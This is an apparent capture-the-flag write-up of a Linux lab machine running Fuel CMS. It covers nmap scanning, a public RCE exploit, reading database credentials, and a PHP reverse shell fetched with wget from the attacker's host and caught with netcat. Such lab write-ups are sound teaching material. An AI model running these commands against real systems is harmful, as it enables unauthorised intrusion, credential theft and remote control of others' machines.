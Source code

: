 <hr style="border-color:red;"><h1 align="center"><img src="https://github.com/user-attachments/assets/a5b6e0e5-9274-4b5c-8fd4-c1713624185a"></h1>

<hr style="border-color:red;"><h1><picture><img src="https://media2.giphy.com/media/QssGEmpkyEOhBCb7e1/giphy.gif?cid=ecf05e47a0n3gi1bfqntqmob8g9aid1oyj2wr3ds3mg700bl&rid=giphy.gif" width ="25"> </picture>Reconnaissance & Scanning</h1><hr style="border-color:red;">

### **- Verifying the connectivity of the discovered device:**

```bash
ping -c 1 10.10.69.210
```
```bash
ping
The ping command is used to check network connectivity between your machine and another device by sending ICMP (Internet Control Message Protocol) echo request packets.
-c 1
The -c flag specifies the number of echo request packets to send. In this case, -c 1 means only one packet will be sent.
```
<h3 align="center"><picture><img src = "https://github.com/user-attachments/assets/86175868-81cd-4616-94ee-a886f94599ba"></picture><br>TTL = 63 ==> LINUX OS</h3><hr style="border-color:red;">

### **- Scanning of the discovered device to find all open ports to find possible access routes:**

```bash
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.69.210 -oG allPorts
```
```
-p-
This tells Nmap to scan all 65535 TCP ports (from 0 to 65535). By default, Nmap only scans the most common 1,000 ports.

--open
This filters the results to only show open ports, ignoring closed or filtered ports.

-sS
This specifies a SYN scan (also called a half-open scan or stealth scan).
Instead of fully establishing a TCP connection, Nmap sends an SYN packet and waits for a response.
If the target responds with SYN-ACK, it means the port is open.
If the target responds with RST, the port is closed.
If no response or an ICMP error is received, the port may be filtered (firewall blocking it).

--min-rate 5000
This forces Nmap to send at least 5000 packets per second, making the scan faster.
Without this, Nmap adjusts the speed automatically based on network conditions.

-vvv
This increases verbosity level (very very verbose).
It provides real-time feedback while scanning.
You will see results as they are discovered instead of waiting for the full scan to complete.

-n
This disables DNS resolution, making the scan faster.
By default, Nmap tries to resolve IPs to hostnames, which can slow down the scan.

-Pn
This tells Nmap to skip the host discovery phase and assume the target is up.
Normally, Nmap pings the target first to check if it is online.
If a firewall is blocking pings, this option is useful to force a scan even if the target doesn’t respond to pings.

-oG allPorts
This tells Nmap to output the results in "Grepable" format and save them in a file called allPorts.
```
<h3 align="center"><picture><img src = "https://github.com/user-attachments/assets/e3e6e730-d446-4f9d-8c32-e2aaf34c3922"></picture><br>Accessible port 80 http </h3><hr style="border-color:red;">

### **- Analysis of the open ports found on the discovered device to get more information on the services running on those ports:**

```bash
nmap -sCV -p80 10.10.69.210 -oN targeted
```
```
-sC
Enables Nmap’s default script scanning.
This runs a set of default scripts to gather more information about detected services.
Scripts can detect vulnerabilities, enumerate software versions, and check for misconfigurations.
Equivalent to --script=default.

-sV
Performs version detection of services.
It tries to determine the exact software version running on open ports.

-p
This makes the scan faster and more targeted instead of scanning all ports.

-oN targeted
Saves the output in normal format to a file named targeted.
You can later review this file for findings.
```
<h3 align="center"><picture><img src="https://github.com/user-attachments/assets/4673fd49-1a3e-41a1-b8af-d255f7eb410a"></picture><br></h3>

```bash
curl 10.10.69.210/robots.txt
```

<h3 align="center"><picture><img src="https://github.com/user-attachments/assets/5d94029e-df39-47fe-919a-55153a8462f4"></picture><br>Nothing relevant</h3><hr style="border-color:red;">

<h1><picture><img src="https://media2.giphy.com/media/QssGEmpkyEOhBCb7e1/giphy.gif?cid=ecf05e47a0n3gi1bfqntqmob8g9aid1oyj2wr3ds3mg700bl&rid=giphy.gif" width ="25"> </picture>Vulnerability Assessment</h1><hr style="border-color:red;">

<h2><picture><img src="https://media2.giphy.com/media/QssGEmpkyEOhBCb7e1/giphy.gif?cid=ecf05e47a0n3gi1bfqntqmob8g9aid1oyj2wr3ds3mg700bl&rid=giphy.gif" width ="25"> </picture>PORT 80</h2>

### **Scanning ms17-010 whit METASPLOIT for possible vulnerabilities**
```bash
whatweb "10.10.69.210"
```
```
tool is used for website reconnaissance. It identifies technologies used by a website, such as CMS, frameworks, programming languages, web servers, and security mechanisms.
```
<h3 align="center"><picture><img src = "https://github.com/user-attachments/assets/7b2ac37a-b551-4641-913b-2e84b2cc54c2"></picture><br>From here we could already look for a vulnerability for FUEL CMS but we lack the correct version.</h3>

### **- From the same web we can find very valuable information:**

<h3 align="center"><picture><img src = "https://github.com/user-attachments/assets/bfa830a5-4450-4d09-8049-f05aff859112"></picture><br></h3>
<h3 align="center"><picture><img src = "https://github.com/user-attachments/assets/4af62892-2d1e-44db-8abc-5bfb2d4592cd"></picture><br></h3>

### **- We will be able to log in with the information found.:**

<h3 align="center"><picture><img src = "https://github.com/user-attachments/assets/e073e3af-a053-40b6-bac3-64c53843a6d2"></picture><br></h3>
<h3 align="center"><picture><img src = "https://github.com/user-attachments/assets/3a7340c5-89ec-4d2b-8f1f-24732dc5c354"></picture><br></h3>
<h3 align="center"><picture><img src = "https://github.com/user-attachments/assets/7df5fd21-f5f6-44ea-a101-23123828a7dc"></picture><br>Now we have only confirmed the version of the CMS, now we will have to find a way to break the system..</h3>

### **- looking for possible vulnerabilities**

<h3 align="center"><picture><img src = "https://github.com/user-attachments/assets/83050add-a133-4c69-a1c2-a16aa896f308"></picture><br></h3>
<h3 align="center"><picture><img src = "https://github.com/user-attachments/assets/3465a6a2-122a-4263-b340-324c6cb0f93b"></picture><br></h3>
<h3 align="center"><picture><img src = "https://github.com/user-attachments/assets/56e2983b-2040-4bca-b424-5b87d7e388c8"></picture><br>This sploit requires to be used with python3</h3>

```bash
python3 50477.py -u http://10.10.69.210
```

<h3 align="center"><picture><img src = "https://github.com/user-attachments/assets/15024ded-0f9f-437b-af24-54ddbfbb0f33"></picture><br>We are in</h3>

### **- Let's remember some information about the web**

<h3 align="center"><picture><img src = "https://github.com/user-attachments/assets/e36381fe-462b-4ed6-9cba-6610340c2d2c"></picture><br></h3>

```
cat fuel/application/config/database.php 
```
<h3 align="center"><picture><img src = "https://github.com/user-attachments/assets/bbe86f48-8313-45b8-b772-a82bb9783dff"></picture><br>We already have root credentials</h3>

### **- looking for the flags:**
```bash
ls /home/www-data
cat /home/www-data/flag.txt
```
<h3 align="center"><picture><img src = "https://github.com/user-attachments/assets/a5a8a433-dc0d-4c85-9ddd-6fc57539a415"></picture><br></h3>
<h3 align="center"><picture><img src = "https://github.com/user-attachments/assets/f57686c8-2894-474c-9662-6e33f048d80b"></picture><br>Even though we have the root credentials we do not have access to</h3>

### **- Now we will create a reverse shell that will give us access from the terminal of our attacking machine:**

```bash
https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php
```

<h3 align="center"><picture><img src = "https://github.com/user-attachments/assets/f1c71928-734c-46a5-a28a-1b53d5fb914e"></picture><br>We are going to go to the web previously mentioned and copy the code changing the selected lines in the image, we will call this file “shell.php”.</h3>

### **- From our attacking machine we will create an http server with python to upload our file to the compromised machine.**

```bash
python3 -m http.server 80
```

<h3 align="center"><picture><img src = "https://github.com/user-attachments/assets/16e6c3b5-bcb4-4d80-b994-081d16ce2f4b"></picture><br></h3>

### **- From the victim machine we download the file**

```bash
wget http://10.21.118.81/shell.php
```
<h3 align="center"><picture><img src = "https://github.com/user-attachments/assets/091c55c7-4eab-4c3c-9218-0ee4cec7527e"></picture><br></h3>

### **- From our attacking machine we will listen on the assigned port**

```bash
nc -nlvp 444
```
```
treatment of tty
script /dev/null -c bash
"CTRL+Z"
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=bash
```
<h3 align="center"><picture><img src = "https://github.com/user-attachments/assets/f28fe028-5533-44b7-8742-89ea78218a6c"></picture><br>We are in like a root</h3>
